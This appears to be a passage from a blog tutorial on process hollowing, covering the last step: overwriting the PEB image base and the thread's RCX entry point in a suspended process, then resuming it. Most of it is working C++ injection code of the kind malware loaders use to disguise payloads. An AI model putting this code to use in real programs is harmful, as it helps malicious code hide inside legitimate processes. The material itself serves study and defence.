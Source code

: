 ## Changing the entrypoint and resuming the execution

After the relocation phase done. The last step is to change the address of the register RCX of the remote process thread context with the address of the entrypoint of the injected PE. Also it is needed to change the address of the Image Base Address included in the PEB which is contained in the RDX register.


{% highlight C++ %}
CONTEXT CTX = {};
CTX.ContextFlags = CONTEXT_FULL;

// Retrieve main thread context of the remote process
BOOL bGetContext = GetThreadContext(pi->hThread, &CTX);
if (!bGetContext)
{
    _dbg("[-] An error occured when trying to get the thread context.\n");
    return FALSE;
}

// Overwrite the Image Base Address inside the PEB
// PEB @ RDX
// PPEB->ImageBaseAddress = PPEB+0x10
BOOL bWritePEB = WriteProcessMemory(pi->hProcess, (PVOID)(CTX.Rdx + 0x10), &peInjectNtHeader->OptionalHeader.ImageBase, sizeof(PVOID), nullptr);
if (!bWritePEB)
{
    _dbg("[-] An error occured when trying to write the image base in the PEB.\n");
    return FALSE;
}

// Overwrite RCX with the address of the injected PE entry point
CTX.Rcx = (DWORD64)allocAddrOnTarget + peInjectNtHeader->OptionalHeader.AddressOfEntryPoint;

BOOL bSetContext = SetThreadContext(pi->hThread, &CTX);
if (!bSetContext)
{
    _dbg("[-] An error occured when trying to set the thread context.\n");
    return FALSE;
}

// Resume the thread
ResumeThread(pi->hThread);
{% endhighlight %}